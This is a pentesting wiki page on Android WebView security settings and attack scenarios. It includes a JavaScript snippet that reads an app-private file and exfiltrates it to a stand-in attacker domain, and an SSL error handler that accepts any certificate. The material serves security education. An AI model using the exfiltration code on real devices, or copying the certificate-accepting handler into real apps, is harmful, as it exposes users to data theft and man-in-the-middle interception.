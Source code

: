 # Webview Attacks

## Interesting Configurations

### Javascript Enabled

WebViews have Javascript **disabled by default**. The method [`setJavaScriptEnabled()`](https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled%28boolean%29) is can explicitly enabling or disabling it.   
Note that webviews can also support the **`intent`** **scheme** that allows to fire other applications. Read this [writeup to find how to go from XSS to RCE](https://medium.com/@dPhoeniixx/tiktok-for-android-1-click-rce-240266e78105).

### File Access

_WebView_ file access is enabled by default. Since API 3 \(Cupcake 1.5\) the method [_setAllowFileAccess\(\)_](https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess%28boolean%29) is available for explicitly enabling or disabling it.  
If the application has _**android.permission.READ\_EXTERNAL\_STORAGE**_ it will be able to read and load files **from the external storage**.  
The _WebView_ needs to use a File URL Scheme, e.g., `file://path/file`, to access the file.

#### Universal Access From File URL \(Deprecated\)

> Sets whether **cross-origin requests** in the **context of a file** scheme URL should be allowed to access **content from any origin**. This includes **access to content from other file scheme URLs or web contexts.** Note that some access such as image HTML elements doesn't follow same-origin rules and isn't affected by this setting.
>
> **Don't** enable this setting if you open files that may be created or altered by external sources. Enabling this setting **allows malicious scripts loaded in a `file://`** context to launch cross-site scripting attacks, either **accessing arbitrary local files** including WebView cookies, app private data or even credentials used on arbitrary web sites.

In summary this will **prevent loading arbitrary Origins.** The app will send the URL request lo load the content with **`Origin: file://`** if the response doesn't allow that origin \(**`Access-Control-Allow-Origin: file://`**\) then the content won't be loaded.  
The **default value is `false`** when targeting [`Build.VERSION_CODES.JELLY_BEAN`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#JELLY_BEAN) and above.

* Use [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) to know whether JavaScript running in the context of a file scheme URL can access content from any origin \(if UniversalAccessFromFileURL is enabled\).
* Use [`setAllowUniversalAccessFromFileURLs(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs%28boolean%29) to enable/disable it.

#### File Access From File URLs \(Deprecated\) <a id="getAllowFileAccessFromFileURLs()"></a>

> Sets whether cross-origin requests in the context of a file scheme URL should be allowed to access content from other file scheme URLs. Note that some accesses such as image HTML elements don't follow same-origin rules and aren't affected by this setting.
>
> **Don't** enable this setting if you open files that may be created or altered by external sources. Enabling this setting allows malicious scripts loaded in a `file://` context to **access arbitrary local files** including WebView cookies and app private data.

In summary, this prevents javascript to access local files via `file://` protocol.  
Note that **the value of this setting is ignored** if the value of [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) is `true`.   
The **default value is `false`** when targeting [`Build.VERSION_CODES.JELLY_BEAN`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#JELLY_BEAN) and above.

* Use [`getAllowUniversalAccessFromFileURLs()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowUniversalAccessFromFileURLs%28%29) to know Gets whether JavaScript running in the context of a file scheme URL can access content from any origin \(if AllowFileAccessFromFileURLs is enabled\)
* Use [`setAllowFileAccessFromFileURLs(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs%28boolean%29) to enable/disable it.

#### File Access

> Enables or disables **file access within WebView**. Note that this enables or disables file system access only. Assets and resources are still accessible using file:///android\_asset and file:///android\_res.

In summary, if disable, the WebView won't be able to load a local file with the `file://` protocol.  
The **default value is`false`** when targeting [`Build.VERSION_CODES.R`](https://developer.android.com/reference/android/os/Build.VERSION_CODES#R) and above.

* Use [`getAllowFileAccess()`](https://developer.android.com/reference/android/webkit/WebSettings#getAllowFileAccess%28%29) to know if the configuration is enabled.
* Use [`setAllowFileAccess(boolean)`](https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccess%28boolean%29) to enable/disable it.

## Scenarios

### Javascript Enabled & FileSystemAccess Disabled

In this scenario an attacker is able to **inject Javascript code** inside the web page opened via **webview** by the victim. This could be done maybe via **XSS** or making the webview **load** a **malicious HTML** page stored inside the phone.  
This **webview has Javascript enabled** but no access to the file system.

In this scenario the attacker **won't be able to read local files**, but depending on the permissions of the application this **could allow an attacker to interact with the functionality of the device** \(read SMS, microphone recording etc.\) exposing the security of the application and the device itself into great risk.

### Javascript Enabled & FileSystemAccess enabled

The scenario is like the one mentioned previously but the **webview now have FileSystem access**.  
An attacker could try to ex-filtrate files with javascript code like:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
    window.location.replace('https://attackerdomain.com/?exfiltrated='+xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt', true);
xhr.send(null);
```

So **even with file access enabled** in the _WebView_, due to the fact that the file scheme request is considered a **Cross Origin Request** and hence **disallowed**, the attacker will **not be able to exfiltrate** files this way.

Note that if the **attacker is able to control the mobile** where the vulnerable application is running, he could be able to abuse it to **make it load the internal file and see it**. In this case the CORS isn't stopping the attack because the attacker is **directly accessing the file instead of trying to access it from a different origin**. 

**CORS related errors looks like this:**

```javascript
05-09 12:38:59.306 27768 27768 I chromium: [INFO:CONSOLE(20)] “Failed to load file:///data/data/pt.integrity.labs.webview_remote/files/sandbox_file.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.”, source: https://labs.integrity.pt/ (20)
```

### Javascript Enabled, FileSystemAccessEnabled & CORS Disabled

In this scenario, using the same Javascript payload, you will finally **be able to ex-filtrate internal files.**

## **SSL Error Handling**

The code below instructs the WebView client to **proceed when an SSL error occur**. This means that the **application is vulnerable to MiTM attacks** as it could allow an attacker to read or modify content that is displayed to the user since any certificate would be accepted by the application.

```javascript
@Override
public void onReceivedSslError(WebView view, SslErrorHandler handler,
SslError error)
{
    handler.proceed();
}
```

## **References**

* \*\*\*\*[**https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html**](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)\*\*\*\*
* \*\*\*\*[**https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/**](https://pentestlab.blog/2017/02/12/android-webview-vulnerabilities/)\*\*\*\*

